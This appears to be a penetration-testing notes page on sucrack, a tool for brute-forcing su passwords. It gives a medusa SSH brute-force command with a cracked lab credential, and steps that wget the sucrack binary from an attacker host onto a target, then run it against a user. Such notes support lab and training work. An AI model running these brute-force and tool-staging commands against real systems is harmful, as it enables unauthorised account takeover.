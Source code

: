 # 💢 sucrack
Tags: #💢
Related to: 
See also: [[nping]], [[ndiff]], [[ncat]]
Previous: [[Information Gathering]]

---
## Description
sucrack is a multithreaded Linux/UNIX tool brute-force cracking tool that drives su(1) with referencing a specific user and uses words from a wordlist as passwords. Running sucrack does not require high privileges on the target system.

---

## Usage Examples

### Attempt SSH logins

	medusa -h 10.129.189.141 -U users.txt -P passwords.txt -M ssh 10.129.189.141

```
-h [TEXT]    : Target hostname or IP address
-U [FILE]    : File containing usernames to test
-P [FILE]    : File containing passwords to test
-M [TEXT]    : Name of the module to execute (without the .mod extension)


ACCOUNT FOUND: [ssh] Host: 10.129.189.141 User: jimmy Password: n1nj4W4rri0R! [SUCCESS]
```

If we don't have SSH on our box, we can perform this on another box using sucrack:

	cp /usr/bin/sucrack www
	cd /dev/shm
	wget 10.10.14.120/sucrack
	chmod +x sucrack
	vi passwords.txt
	
```
n1nj4W4rri0R!
test
admin
```

	./sucrack -a -w 20 -s 10 -u jimmy -rl AFLafld passwords.txt



---
## References
- 